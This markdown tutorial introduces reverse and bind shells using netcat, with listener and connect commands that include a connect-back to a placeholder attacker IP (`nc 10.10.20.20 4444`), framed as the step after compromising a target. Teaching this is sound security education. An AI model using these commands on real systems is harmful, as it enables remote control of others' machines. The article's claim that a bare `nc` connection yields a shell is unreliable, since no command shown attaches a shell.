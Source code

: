 ```yaml
---
title: Reverse shells and bind shells
description: An introduction to reverse shells and bind shells using netcat.
tags:
  - cybersecurity
  - linux
---
```


Reverse shells and bind shells are types of network connections used in hacking and penetration testing. 

A reverse shell is when the attacker makes a target computer connect back their own computer, where they can then control the target's shell. To do this, the attacker uses special tools to set up a "listener" on the attacking computer, which waits for the target to connect.

In contrast, a bind shell is when a attacker makes the target computer run a "listener" directly, that allows the attacker to connect and control it.

A reverse or bind shell is usually established after a target computer has been exploited. In this article we will not be discussing how to exploit a target, but we will be covering how to establish a reverse or bind shell using a tool called netcat.

## Netcat

Netcat is a command-line tool used for network communication. It can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. 

One of netcat's main advantages is its wide availability. Netcat it is preinstalled on many Linux distributions, and it can be also installed on Windows.

When establishing a **reverse shell**, we need to start a listener on the attacking computer, and then connect to it from the target computer.

We can set up the listener on the attacking computer with `nc -lvnp <PORT>`, e.g. `nc -lvnp 4444`.

The `-lvnp 4444` options are:

- `l` = listen mode
- `v` = verbose mode
- `n` = numeric only (IP address), don't use DNS 
- `p 4444` = listen on port `4444`

Now, we need connect to the listener from the target computer. To do this, we use `nc <ATTACKER-IP> <PORT>`, e.g. `nc 10.10.20.20 4444` if the attacker's IP is `10.10.20.20` and the attacker is listening on port `4444`. 

Once the connection is established, we will be able to send shell commands to the target's shell from the attacker's computer! 🎉

When establishing a **bind shell**, we need to start a listener on the target computer, and then connect to it from the attacking computer.

Set up the the listener on the target computer with `nc -lvnp <PORT>`, and then connect to the listener from the attacking computer with `nc <TARGET-IP> <PORT>`.

When setting up reverse and binding shells, keep in mind:

- The port on the listener can be blocked by firewalls, so be sure to find a port that is open.
- Administrative permissions (i.e. `sudo`) are needed when listening on a port below `1024`.

